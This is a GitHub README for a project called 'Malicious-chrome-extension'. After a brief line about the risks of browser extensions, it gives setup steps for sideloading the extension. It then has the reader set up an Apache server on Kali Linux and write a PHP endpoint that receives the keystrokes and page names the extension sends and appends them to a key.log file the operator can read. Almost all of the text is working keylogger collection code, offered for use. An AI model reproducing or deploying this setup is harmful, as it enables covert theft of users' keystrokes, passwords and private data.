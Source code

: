 # Malicious-chrome-extension
<!-- ABOUT THE PROJECT -->
<div id="top"></div>
### About The Project

Vulnerabilities in browser extensions put users at risk by providing a way for website and network attakcers to gain access to user's private data and credentials. Browser extensions can introduce serious security vulnerabilities into users browsers.

<p align="right">(<a href="#top">back to top</a>)</p>

## Getting started
1. Clone this git repository
2. Settings > Extensions > enable developer mode > Load unpacked > upload the folder  
3. In server(kali linux),
           - sudo systemctl enable apache2  
           - sudo service apache2 start      
           - cd /var/www/html    
           - sudo mkdir keylogger    
           - cd keylogger    
           - nano index.php 
              
             <?php        
              if(!isset($_POST['key'])){ ### Authenticate input      
                      echo("Access Denied!");    
                      exit(0);    
              }     
              $file = fopen("key.log","a+");    
              if(!isset($_SESSION['page']) || $_SESSION['page'] != $_POST['page']){     
                      $_SESSION['page'] = $_POST['page'];     
                      fwrite($file,"[[[ PAGE : ".$_POST['page']."]]]");     
              }    
              fwrite($file,$_POST['key']);     
              fclose($file);     
              echo('char saved!');   
                     
            - cd ..     
            - cd ..      
            - -hR www-data:www-data html     
            - Open a browser > 192.168.xx.xx/keylogger/key.log     
            





